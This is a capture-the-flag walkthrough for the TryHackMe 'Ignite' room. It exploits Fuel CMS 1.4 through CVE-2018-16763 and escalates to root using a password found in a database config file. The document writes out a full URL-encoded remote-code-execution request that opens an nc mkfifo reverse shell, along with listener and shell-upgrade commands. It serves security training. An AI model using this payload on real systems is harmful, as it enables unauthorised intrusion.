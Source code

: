 # IgniteCTF
A beginner Friendly CTF Ignite Hosted on TryHackme created by DarkStar7471. Which focus on Enumeration and Privilege escalation and Divided it into 2 tasks user Flag and root Flag.

## User Flag
Let's boot up the machine and start simple Nmap Scan
```
nmap -Pn -A -vv -sV -sC -oN normalScan $IP
```
and we found out port 80 HTTP web server is open on the server

By looking into the website we found it is a FUEL Content management system with 1.4 Version

![FuelCMS.png](./src/FuelCMS.png)

Let's look for available exploits for Fuel cms on google.and we found RCE CVE-2018-16763. https://www.exploit-db.com/exploits/47138

![POC.png](./src/POC.png)

let's visit https://www.revshells.com/ and Put IP and PORT For reverse shell mine IP:10.8.244.200 and PORT:1234.
and select "nc mkfifo" and copy code. then visit https://gchq.github.io/CyberChef/ and paste the code and use URL Encode and select encode all special characters.
copy output.
![RevShell.png](./src/RevShell.png)

![URLencoded.png](./src/URLencoded.png)


replace output with urllib.quote(xxxx) from this

```
http://IP/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27
```
to
```
http://IP/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E8%2E244%2E200%201234%20%3E%2Ftmp%2Ff%27%29%2b%27
```
this

start Netcat listener on your system
```
nc -nlvp 1234
```
and hit our payload you should get the shell
run 
```
cat /home/www-data/flag.txt
```
for user flag
now run 
```
which python
```
to get to know if python is installed or not
```
python -c "import pty;pty.spawn('/bin/bash')"
```
then press ctrl + z and run on our machine
```
stty raw -echo;fg
```
for interactive shell
![interactiveShell.png](./src/interactiveShell.png)


## Root Flag

move linpeas.sh from attacker machine to Fuel Machine and run it for enumeration
start a python HTTP server on an attacker And use wget to get linpeas.sh and execute it 
nothing much found 
but in one of config file 
```
/var/www/html/fuel/application/config/database.php
```
we got root password 
run
```
su root
and password 
cat /root/root.txt
```
we got root flag
![root.png](./src/root.png)


I hope this walkthrough was helpful thank you so much for reading it 

Happy Hacking ! ❤